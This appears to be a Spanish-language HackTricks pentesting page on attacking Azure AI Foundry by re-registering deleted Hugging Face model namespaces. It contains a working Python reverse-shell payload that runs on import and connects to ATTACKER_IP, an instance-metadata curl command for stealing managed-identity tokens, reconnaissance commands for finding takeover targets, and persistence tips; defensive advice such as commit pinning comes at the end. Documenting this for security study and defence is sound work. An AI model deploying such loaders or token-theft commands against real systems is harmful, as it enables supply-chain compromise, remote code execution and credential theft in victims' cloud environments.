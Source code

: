 # Azure - AI Foundry Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Escenario

- Azure AI Foundry Model Catalog incluye muchos modelos de Hugging Face (HF) para despliegue con un solo clic.
- Los identificadores de modelo HF son Author/ModelName. Si un author/org de HF es eliminado, cualquiera puede volver a registrar ese author y publicar un modelo con el mismo ModelName en la ruta legacy.
- Pipelines y catálogos que obtienen por nombre solamente (sin commit pinning/integrity) resolverán a repos controlados por el atacante. Cuando Azure despliega el modelo, el código loader puede ejecutarse en el entorno del endpoint, otorgando RCE con los permisos de ese endpoint.

Casos comunes de HF takeover:
- Ownership deletion: Old path 404 until takeover.
- Ownership transfer: Old path 307 to the new author while old author exists. If the old author is later deleted and re-registered, the redirect breaks and the attacker’s repo serves at the legacy path.

## Identificación de espacios de nombres reutilizables (HF)
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## Flujo de ataque de extremo a extremo contra Azure AI Foundry

1) En el Catálogo de Modelos, encuentra modelos HF cuyos autores originales fueron eliminados o transferidos (autor antiguo eliminado) en HF.  
2) Vuelve a registrar el autor abandonado en HF y recrea el ModelName.  
3) Publica un repo malicioso con código loader que se ejecuta on import o requiere trust_remote_code=True.  
4) Despliega el Author/ModelName legacy desde Azure AI Foundry. La plataforma descarga el repo del atacante; el loader se ejecuta dentro del contenedor/VM del endpoint de Azure, provocando RCE con los permisos del endpoint.

Fragmento de payload de ejemplo ejecutado on import (solo para demostración):
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Notas
- Las implementaciones de AI Foundry que integran HF suelen clonar e importar módulos de repositorio referenciados por la configuración del modelo (p. ej., auto_map), lo que puede desencadenar la ejecución de código. Algunas rutas requieren trust_remote_code=True.
- El acceso normalmente coincide con los permisos de la managed identity/service principal del endpoint. Trátalo como un initial access foothold para acceso a datos y movimiento lateral dentro de Azure.

## Post-Exploitation Tips (Azure Endpoint)

- Enumera las variables de entorno y los endpoints MSI en busca de tokens:
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- Comprueba el almacenamiento montado, los artefactos del modelo y los servicios de Azure accesibles con el token adquirido.
- Considera la persistencia dejando poisoned model artifacts si la plataforma vuelve a obtener desde HF.

## Guía defensiva para usuarios de Azure AI Foundry

- Fija los modelos por commit al cargarlos desde HF:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Replicar modelos HF verificados en un registro interno de confianza y desplegarlos desde allí.
- Escanear continuamente codebases y defaults/docstrings/notebooks en busca de Author/ModelName hard-coded que hayan sido eliminados/transferidos; actualizar o fijar.
- Validar la existencia del autor y la procedencia del modelo antes del despliegue.

## Heurísticas de reconocimiento (HTTP)

- Autor eliminado: página del autor 404; ruta heredada del modelo 404 hasta la toma de control.
- Modelo transferido: ruta heredada 307 al nuevo autor mientras el autor antiguo existe; si el autor antiguo más tarde se elimina y se vuelve a registrar, la ruta heredada sirve contenido del atacante.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Referencias cruzadas

- Consulte la metodología más amplia y las notas sobre la cadena de suministro:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Referencias

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
